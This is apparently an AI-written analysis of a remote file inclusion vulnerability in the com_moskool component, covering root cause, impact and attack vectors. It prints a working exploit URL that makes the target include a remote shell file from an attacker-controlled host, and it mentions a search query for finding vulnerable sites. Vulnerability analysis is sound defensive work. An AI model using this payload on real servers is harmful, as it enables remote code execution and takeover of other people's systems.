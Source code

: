 Based on the provided content, here's an analysis of the vulnerability:

**Root Cause:** The vulnerability lies in the `com_moskool` component, specifically within the `admin.moskool.php` file. It stems from a failure to sanitize user-supplied input, particularly the `mosConfig_absolute_path` parameter. This lack of sanitization allows for the inclusion of remote files.

**Weaknesses/Vulnerabilities:**
*   **Remote File Inclusion (RFI):** The primary vulnerability is RFI. The application directly includes a file path provided by the attacker via the `mosConfig_absolute_path` parameter.

**Impact of Exploitation:**
*   **Arbitrary Code Execution:** By including a malicious file, an attacker can execute arbitrary code on the server. This could lead to a complete compromise of the system.
*   **Data Theft and Manipulation:** The attacker can potentially access and modify sensitive data stored on the server, depending on the included file's payload.

**Attack Vectors:**
*   **HTTP GET Parameter:** The attack vector is through the HTTP GET parameter `mosConfig_absolute_path`. The attacker crafts a URL with this parameter set to point to a malicious file hosted on an attacker-controlled server.
*   **Remote:** The vulnerability is remotely exploitable.

**Required Attacker Capabilities/Position:**
*   **Basic HTTP knowledge:** The attacker needs to be able to craft HTTP GET requests.
*   **Access to the Vulnerable Application:** The attacker needs to be able to access the vulnerable web application.
*   **Ability to host a malicious file:** The attacker needs to host a file, often a text file containing PHP code or shell commands, on a server they control. This file is then included via the RFI vulnerability.

**Technical Details:**

The exploit URL provided is:
`http://[target]/component/option,com_moskool/Itemid,34/admin.moskool.php?mosConfig_absolute_path?=http://sit/shell.txt?cmd`

This URL demonstrates how an attacker can include a remote file.

*   `[target]` is the address of the vulnerable web server.
*   `component/option,com_moskool/Itemid,34/admin.moskool.php`  is the path to the vulnerable file.
*   `mosConfig_absolute_path?=http://sit/shell.txt?cmd`  is the malicious parameter, where:
    *   `mosConfig_absolute_path` is the vulnerable parameter.
    *   `http://sit/shell.txt` is the URL of the attacker's malicious file.
    *   `?cmd` is a GET parameter that may be specific to the attacker's hosted shell file.

**Additional Notes:**
*   The provided description also notes a Google search query to find vulnerable targets, indicating that this vulnerability is easily discoverable.
*   The CVSS score is 7.5, indicating a high severity vulnerability with remote exploitability, low attack complexity, no authentication required and partial impacts on confidentiality, integrity, and availability.

This vulnerability description contains more technical details than the standard CVE description, including the exploit details and a google search query to find vulnerable instances.
